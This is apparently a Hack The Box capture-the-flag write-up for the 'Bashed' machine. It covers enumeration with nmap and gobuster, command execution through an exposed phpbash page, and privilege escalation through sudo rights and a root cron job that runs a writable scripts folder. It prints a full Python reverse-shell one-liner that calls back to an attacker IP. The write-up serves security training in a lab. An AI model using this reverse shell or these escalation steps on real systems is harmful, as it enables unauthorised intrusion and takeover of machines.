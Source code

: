 #HackTheBox 

## <span style="color:#92d050">About </span>

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted,

------
## <span style="color:#92d050">Recon</span> 

Nmap scan : 
```shell
nmap -A 10.10.10.68 -oN nmap_scan.txt 
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 05:31 EDT
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.70 seconds
```

we only have one port open that greatly reduce our time of enumeration .
Operating System : Linux 

---------
## <span style="color:#92d050">HTTP - 80</span> 

 - we have apache httpd service running on port 80 .
 - version : Apache httpd 2.4.18 ((Ubuntu))

Site : 
![Site Image](Pasted%20image%2020230822151105.png)
General information about php bash on site .

after some enumeration we find out that php bash is implemented on this system as well .
![](Pasted%20image%2020230822153753.png)

so I run gobuster to find the directory :
```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .html,.php,.xml,.txt
```

```
/.html                (Status: 403) [Size: 291]
/.php                 (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 7743]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/contact.html         (Status: 200) [Size: 7805]
/about.html           (Status: 200) [Size: 8193]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

I found lots of directory and started looking for phpbash.php and found it in /dev :
![](Pasted%20image%2020230822154010.png)

I click on it and it allowed me to run cmd on target machine so i use python reverse shell to connect to my attacker machine nc listener :
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

before i started a nc listener and got a shell .
```
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55758
www-data@bashed:/var/www/html/dev$ whoami
www-data
www-data@bashed:/var/www/html/dev$
```

user.txt :
```
www-data@bashed:/home/arrexel$ cat user.txt
cat user.txt
88d56d080afddcb62d805e3d09cb7ef2
www-data@bashed:/home/arrexel$ sudo -l
```

I Found user.txt in user arrexel home directory .

-------
## <span style="color:#92d050">Priv Esc</span> 

#Linux

 - After Getting initial access we started post exploitation by first checking the sudo right .

```
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

and find out i can run any thing as user scriptmanager .

so i run this command to get scriptmanager's shell :
```
sudo -u scriptmanager bash -i
```

and we switch to user :
```
scriptmanager@bashed:/home$ whoami
whoami
scriptmanager
scriptmanager@bashed:/home$
```

I moved to the "/" directory and found a /script directory with scriptmanager as owner usually all directory in "/" are owned by root :
![](Pasted%20image%2020230822163842.png)

checking /scripts:
```
scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Aug 22 04:04 test.txt
```

we have two files and we have read permission to both of them .
checking content of test.txt :
```
scriptmanager@bashed:/scripts$ cat test.txt 
cat test.txt 
testing 123!
```

checking test.py :
```
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

if we look closely test.py is writing to test.txt but test.txt is owned by root and only he can write , that means test.py is executing with root permission in fact all python files in "/scripts" are executing as root permission because of cronjob mentioned in about section .

so i stored a reverse shell code in rev.py and transfer it using python http server and wget on target machine :
![](Pasted%20image%2020230822164503.png)

I started a nc listener and wait for some time for script to run and i got a reverse shell .
```
rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55176
# whoami
whoami
root
```

I spawned a tty shell using python one liner :
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

the root.txt :
```
root@bashed:~# ls -al
ls -al
total 28
drwx------  3 root root 4096 Jun  2  2022 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Aug 22 04:00 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
root@bashed:~# 
```


